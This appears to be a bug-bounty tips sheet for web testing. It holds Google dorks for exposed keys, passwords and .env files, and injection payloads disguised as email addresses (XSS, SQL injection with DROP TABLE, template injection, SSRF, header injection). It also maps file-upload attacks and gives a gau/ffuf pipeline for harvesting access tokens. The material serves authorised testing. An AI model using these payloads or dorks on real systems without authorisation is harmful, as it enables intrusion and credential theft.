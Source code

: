 Tips

## Bunch of web related stuff to read 

https://pentester.land/

---



## Don't find what you need ? List of writeups, search with keywords.

https://pentester.land/list-of-bug-bounty-writeups.html?fbclid=IwAR1_Q5WRS8Q0mmF4fpxMXLeWmboBxicAAdyqscrnGB1Uxiznu-FjS1xJZSs

---

## Drupal 

Find hidden pages : fuzz /node/$ where $ is a number.

---

## Payload needed ? Here are lists

- SecLists
- Payloadallthethings
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---

## Need info on how to hunt something ?

https://github.com/KathanP19/HowToHunt
https://www.infosecmatter.com/bug-bounty-tips-1/

---



## Some google dorks

```
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
site:target.com inurl:admin | administrator | adm | login | l0gin | wp-login
intitle:"login" "admin" site:target.com
inurl:admin site:target.com
site:target.com ext:txt | ext:doc | ext:docx | ext:odt | ext:pdf | ext:rtf | ext:sxw | ext:psw | ext:ppt | ext:pptx | ext:pps | ext:csv | ext:mdb
intitle:"index of /" Parent Directory site:target.com
intitle:"index of /admin" site:target.com
intitle:"index of /password" site:target.com
intitle:"index of /mail" site:target.com
intitle:"index of /" (passwd | password.txt) site:target.com
intitle:"index of /" .htaccess site:target.com
inurl:passwd filetype:txt site:target.com
inurl:admin filetype:db site:target.com
filetype:log site:target.com
link:target.com -site:target.com
```


---

## Email address payload 

By @securinti (compiled by @intigriti)
Source: link

The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.

XSS (Cross-Site Scripting):

```
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:
```
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL injection:
```
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):
```
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

Parameter pollution:
```
victim&email=attacker@example.com
```

(Email) header injection:
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

---

## Top 10 file upload scenario

ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE

---

## Find access tokens with ffuf and gau
By @Haoneses

- Gather all links of your target:
`cat hosts | sed 's/https\?:\/\///' | gau > urls.txt`

- Filter out javascript urls:
`cat urls.txt | grep -P "\w+\.js(\?|$)" | sort -u > jsurls.txt`

- Use ffuf to get only valid links and send them right into Burp:
`ffuf -mc 200 w jsurls.txt:HFUZZ -u HFUZZ -replay-proxy http://127.0.0.1:8080`

- Use Scan Check Builder Burp extension, add passive profile to extract “accessToken” or “access_token”.

- In Burp run passive scan on those javascript links.

- Extract found tokens and validate them before reporting.

- Use KeyHacks to identify particular API keys, how can they be used and how to check if they are valid.

- Make sure to also try to extract other file types such as .php, .json etc. (Step 2).


## Find out what websites are built with
By @akita_zen


- This one can help identify what technology a particular website (or a list of websites) was built with.

`cat urls-alive.txt | parallel -j 50 "echo {}; python3 main.py analyze --url {}"`

git clone https://github.com/vincd/wappylyzer.git






